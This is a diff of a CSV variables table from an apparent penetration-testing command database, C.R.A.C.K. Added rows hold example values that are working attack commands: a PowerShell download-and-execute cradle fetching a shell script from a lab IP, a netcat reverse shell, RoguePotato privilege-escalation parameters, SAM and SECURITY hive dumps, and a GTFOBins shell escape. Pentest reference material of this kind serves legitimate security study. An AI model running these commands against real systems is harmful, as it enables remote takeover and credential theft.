

Before and after one commit to CodeBlackwell/C.R.A.C.K., a CSV file: data/neo4j/variables.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff covers the shown part only.

```diff
--- a/data/neo4j/variables.csv
+++ b/data/neo4j/variables.csv
@@ -222,2 +222,3 @@
 "d868de8a4984cd1f","<ATTACKER_IP>","Attacker's IP address to receive stolen cookies","10.10.14.5","True"
+"147b29159d4cf68f","<WEB_ROOT>","Web server document root path","/var/www/html","True"
 "3ccd925833fdbff6","<MAX_COLS>","Maximum columns to test (default 20 is usually sufficient)","20","False"
@@ -293,2 +295,9 @@
 "ab8fdddd0f8e3cd9","<USER_PATH>","User home directory to search","C:\Users\dave\","True"
+"776a86457a640688","<NC_PATH>","Path to netcat executable on target","C:\Windows\Temp\nc.exe","True"
+"e30ef46d90b646b6","<POWERSHELL_COMMAND>","PowerShell command or encoded payload","IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')","True"
+"9a7db574e7c9acba","<BATCH_FILE>","Batch file containing command to execute","C:\Windows\Temp\rev.bat","True"
+"b4633a40145fb515","<CLSID>","CLSID of COM server running as SYSTEM","4991d34b-80a1-4291-83b6-3328366b9097","True"
+"8615577a4395c6ec","<PROGRAM>","Program to execute","C:\Windows\System32\cmd.exe","True"
+"9e42469386d565e1","<ARGUMENTS>","Program arguments","/c C:\Windows\Temp\nc.exe 10.10.14.5 4445 -e cmd.exe","True"
+"c296fee4b92ab86f","<TARGET_PORT>","RoguePotato local listener port","9999","True"
 "facc85b8c410a4b5","<ORIGINAL_PATH>","Full path to original service binary","C:\xampp\mysql\bin\mysqld.exe","True"
@@ -299,4 +308,5 @@
 "4de5feb8405ea980","<EXPLOIT_FLAGS>","Exploitation flags from GTFOBins",". -exec /bin/bash \; -quit","True"
-"147b29159d4cf68f","<WEB_ROOT>","Web server document root directory. Identify from running processes (httpd, w3wp) or common paths.","C:\inetpub\wwwroot","True"
 "35f1bcb56ba46b75","<PATTERNS>","File patterns to search (comma-separated)","*.txt,*.xml,*.ini,*.config","False"
+"765f23a9ef05e706","<SAM_FILE>","Path to saved SAM hive","sam.save","True"
+"763557ec3dd16e71","<SECURITY_FILE>","Path to saved SECURITY hive","security.save","True"
 "26f7c8db16e9424f","<SESSION_ID>","Session ID to interact with (use 1 for first logged-on user, query user to find)","1","False"
@@ -317,6 +327,4 @@
 "c65690f60d090286","<SCRIPT_NAME>","NSE script name or pattern (wildcards supported)","http-vuln-*","True"
-"9e42469386d565e1","<ARGUMENTS>","Script arguments in key=value format (comma-separated)","userdb=users.txt,passdb=passwords.txt","False"
 "a1e8454c580c76a5","<EXTENSIONS>","File extensions to search (comma-separated)","php,html,txt","False"
 "476428baca676d75","<BLACKLIST>","Status codes to exclude (comma-separated)","404,403","False"
-"8615577a4395c6ec","<PROGRAM>","Program to execute (full path or command name)","notepad.exe","True"
 "79cbc34d6385a411","<ARGS>","Command-line arguments (optional)","C:\temp\file.txt","False"
```
Also changed, not shown: 1 added row elsewhere in this file, data/neo4j/cheatsheet_tagged_with.csv, data/neo4j/command_has_flag.csv, 10 other files.
